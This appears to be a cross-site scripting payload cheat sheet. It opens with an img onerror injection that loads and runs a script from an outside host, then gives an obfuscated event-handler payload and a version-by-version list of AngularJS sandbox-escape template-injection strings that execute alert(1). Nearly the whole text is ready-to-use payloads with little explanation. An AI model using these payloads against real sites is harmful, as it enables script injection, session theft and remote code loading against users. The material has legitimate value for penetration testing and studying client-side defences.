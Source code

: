 POST Requests:

```
thegetch%22%3e<img src=x onerror='var x=document.createElement("script");x.src = "//thegetch.github.io/x";document.body.appendChild(x);'>
```

From somedev on twitter:

```
'"--><DeTails/opEn/oNTOggLe=(pro\u006dpt)``//
```

---

### AngualrJS XSS:
- https://portswigger.net/blog/xss-without-html-client-side-template-injection-with-angularjs

List of Sandbox bypasses:

1.0.1 - 1.1.5
```
{{constructor.constructor('alert(1)')()}}
```

1.2.0 - 1.2.1
```
{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
```

1.2.2 - 1.2.5
```
{{'a'[{toString:[].join,length:1,0:'__proto__'}].charAt=''.valueOf;$eval("x='"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+"'");}}
```

1.2.6 - 1.2.18
```
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}
```

1.2.19 - 1.2.23
```
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}
```
1.2.24 - 1.2.29
```
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```

1.3.0
```
{{!ready && (ready = true) && (
      !call
      ? $$watchers[0].get(toString.constructor.prototype)
      : (a = apply) &&
        (apply = constructor) &&
        (valueOf = call) &&
        (''+''.toString(
          'F = Function.prototype;' +
          'F.apply = F.a;' +
          'delete F.a;' +
          'delete F.valueOf;' +
          'alert(1);'
        ))
    );}}
```
